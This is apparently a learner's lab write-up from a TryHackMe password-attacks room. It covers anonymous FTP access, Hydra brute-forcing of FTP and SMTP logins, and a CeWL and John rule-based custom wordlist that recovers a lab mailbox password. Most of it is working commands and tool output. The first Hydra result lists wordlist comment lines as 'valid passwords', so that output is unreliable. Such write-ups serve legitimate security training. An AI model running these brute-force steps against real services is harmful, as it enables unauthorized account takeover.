220 (vsFTPd 3.0.3)
Name (10.10.69.35:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||25808|)
150 Here comes the directory listing.
drwxr-xr-x    2 111      116          4096 Oct 12  2021 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32917|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Oct 12  2021 flag.txt
226 Directory send OK.
ftp> cat flag.txt
?Invalid command.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10008|)
150 Opening BINARY mode data connection for flag.txt (38 bytes).
100% |***********************************************************|    38       58.80 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (34.23 KiB/s)
ftp> ^D
221 Goodbye.
                                                                                                        
┌──(root㉿kali)-[~]
└─# cat flag.txt 
THM{d0abe799f25738ad739c20301aed357b}

```

## Online Password Attacks

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.
Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.

**FTP**
```bash
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x

"
-l ftp we are specifying a single username, use-L for a username wordlist
-P Path specifying the full path of wordlist, you can specify a single password by using -p.
ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.
"
```

-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.

ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.


```bash
dir_wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
rhost=10.10.131.9
password=/usr/share/wordlists/rockyou.txt
hydra -l ftp -P $password ftp://$rhost
```

test
```
[DATA] attacking ftp://10.10.131.9:21/
[21][ftp] host: 10.10.131.9   login: ftp   password: # on at least 2 different hosts
[21][ftp] host: 10.10.131.9   login: ftp   password: # directory-list-2.3-medium.txt
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # Copyright 2007 James Fisher
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # This work is licensed under the Creative Commons
[21][ftp] host: 10.10.131.9   login: ftp   password: # Attribution-Share Alike 3.0 License. To view a copy of this                                                                
[21][ftp] host: 10.10.131.9   login: ftp   password: # license, visit http://creativecommons.org/licenses/by-sa/3.0/                                                              
[21][ftp] host: 10.10.131.9   login: ftp   password: # or send a letter to Creative Commons, 171 Second Street,                                                                   
[21][ftp] host: 10.10.131.9   login: ftp   password: # Suite 300, San Francisco, California, 94105, USA.                                                                          
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # Priority ordered case-sensitive list, where entries were found                                                             
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp
[21][ftp] host: 10.10.131.9   login: ftp   password: index
[21][ftp] host: 10.10.131.9   login: ftp   password: images
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-22 09:36:16

```

**SMTP**
Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

```bash
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 

```

**TASKS**
In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.9:465 (SMTPS).

**RECON**
```bash

Nmap scan report for ip-10-10-208-218.eu-west-1.compute.internal (10.10.208.218)
Host is up, received arp-response (0.0016s latency).
Scanned at 2024-01-22 12:28:42 UTC for 20s
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  REASON         VERSION
21/tcp  open  ftp      syn-ack ttl 64 vsftpd 3.0.3
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     syn-ack ttl 63 Postfix smtpd
80/tcp  open  http     syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
465/tcp open  ssl/smtp syn-ack ttl 63 Postfix smtpd
587/tcp open  smtp     syn-ack ttl 63 Postfix smtpd
MAC Address: 02:4C:22:73:3A:6D (Unknown)
Service Info: Host: mail.thm.labs; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].


```bash
#Get custom clinc wordlist:
cewl https://clinic.thmredteam.com/ -m 8 -w clinic_wordlist.txt


vi /opt/john/john.conf
"
[List.Rules:THM-Password-Attacks]
Az"[0–9][0–9]" ^[!@]
"

cp /opt/john/john.conf /etc/john/john.conf
/sbin/john --wordlist=clinic_wordlist.txt --rules=THM-Password-Attacks --stdout > dict.lst

Press 'q' or Ctrl-C to abort, almost any other key for status
5250p 0:00:00:00 100.00% (2024-01-22 09:55) 525000p/s @ultricies99
```

cewl list
```
placerat
venenatis
eleifend
Technology
Consultant
thmredteam
Professional
interdum
condimentum
pellentesque
fringilla
volutpat
tincidunt
Maecenas
lobortis
facilisis
pulvinar
dignissim
Suspendisse
Facebook
maecenas
voluptate
Introducing
Categories
pharetra
Curabitur
consequat
ultricies
```

generated list 
```
...
 5221  @Vestibulum99
  5222  @vehicula99
  5223  @placerat99
  5224  @venenatis99
  5225  @eleifend99
  5226  @Technology99
  5227  @Consultant99
  5228  @thmredteam99
  5229  @Professional99
  5230  @interdum99
  5231  @condimentum99
  5232  @pellentesque99
  5233  @fringilla99
  5234  @volutpat99
  5235  @tincidunt99
  5236  @Maecenas99
  5237  @lobortis99
  5238  @facilisis99
  5239  @pulvinar99
  5240  @dignissim99
  5241  @Suspendisse99
  5242  @Facebook99
  5243  @maecenas99
  5244  @voluptate99
  5245  @Introducing99
  5246  @Categories99
  5247  @pharetra99
  5248  @Curabitur99
  5249  @consequat99
  5250  @ultricies99

```

then attack stmp using the wordlist
```bash
wordlist=dict.lst
rhost=10.10.208.218
user=pittman@clinic.thmredteam.com
hydra -l $user -P $wordlist smtps://$rhost -s 465 -v


+ wordlist=dict.lst
+ rhost=10.10.208.218
+ user=pittman@clinic.thmredteam.com
+ hydra -l pittman@clinic.thmredteam.com -P dict.lst smtps://10.10.208.218 -s 465 -v -t 4 -T 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-22 12:41:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5250 login tries (l:1/p:5250), ~1313 tries per task
[DATA] attacking smtps://10.10.208.218:465/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[465][smtp] host: 10.10.208.218   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00                                                                           
[STATUS] attack finished for 10.10.208.218 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-22 12:42:44

```